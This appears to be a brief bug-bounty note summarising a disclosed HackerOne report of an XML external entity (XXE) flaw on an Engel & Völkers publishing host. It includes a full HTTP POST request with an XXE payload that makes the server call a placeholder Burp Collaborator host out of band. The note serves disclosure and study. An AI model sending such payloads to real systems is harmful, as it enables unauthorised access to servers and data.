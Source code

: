 # vuls

* [\#914801](https://hackerone.com/reports/914801) XXE on www.publish.engelvoelkers.com

`Asset:  *.engelvoelkers.com`

`Weakness: XXE`

The author tests the URL using a GET request and return 500 with some XML data.

Then change the Method to POST then produced a different response.

```http
POST /dp/services HTTP/1.1
Host: www.publish.engelvoelkers.com:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 140

<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY % ext SYSTEM "http://<BurpCollaboratorServer>"> %ext;
]>
<r></r>
```



## 



